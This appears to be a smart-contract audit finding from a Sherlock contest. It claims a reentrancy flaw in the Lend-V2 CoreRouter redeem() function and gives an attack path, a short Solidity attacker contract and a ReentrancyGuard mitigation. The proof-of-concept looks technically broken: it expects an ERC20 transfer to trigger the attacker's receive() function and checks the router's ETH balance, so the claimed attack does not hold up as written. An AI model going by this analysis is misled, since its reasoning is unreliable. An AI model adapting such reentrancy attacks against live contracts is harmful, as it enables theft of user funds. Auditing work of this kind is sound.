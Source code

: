 Old Honeysuckle Ant

High

# Missing Reentrancy Guard in redeem() Function Allows Funds Drain via Reentrant Call

### Summary

The redeem() function in the CoreRouter contract lacks a reentrancy guard. Since external calls (e.g., IERC20.transfer) are made before critical state updates, a malicious contract can re-enter the function and drain funds, bypassing balance checks.



### Root Cause

The function performs an external call to transfer tokens to the caller before updating internal state, while not being protected by a nonReentrant modifier or equivalent locking mechanism.


```solidity
IERC20(_token).transfer(msg.sender, expectedUnderlying);
// state update only happens AFTER this
```
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L100

### Internal Pre-conditions

lendStorage.totalInvestment[msg.sender][_lToken] >= _amount



### External Pre-conditions

msg.sender is a contract with a fallback or receive function that can trigger a reentrant call to redeem().

Sufficient liquidity is available for redemption.

The user's position appears valid at the time of the initial call.

### Attack Path

Attacker supplies collateral and receives lTokens.

Attacker calls redeem().

During IERC20.transfer, the attacker's contract reenters redeem() (before state is updated).

Since totalInvestment is not yet updated, the second call passes the same checks.

Repeat recursively until all available funds are drained.

### Impact

Complete drain of the contract’s funds if reentrant redemption is not prevented.

Potential insolvency of the lending system.

Loss of user and protocol funds.

### PoC

```solidity
contract ReenterAttack {
    CoreRouter public router;
    address public lToken;

    constructor(CoreRouter _router, address _lToken) {
        router = _router;
        lToken = _lToken;
    }

    function attack() external {
        router.redeem(1 ether, payable(lToken));
    }

    receive() external payable {
        // Reenter during transfer before state is updated
        if (address(router).balance > 0) {
            router.redeem(1 ether, payable(lToken));
        }
    }
}

```

### Mitigation

Import and apply OpenZeppelin’s ReentrancyGuard:

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract CoreRouter is ReentrancyGuard {
```
Protect the function:

```solidity
function redeem(uint256 _amount, address payable _lToken) external nonReentrant returns (uint256) {
    ...
}
```
Optionally, move all state updates before external calls if possible.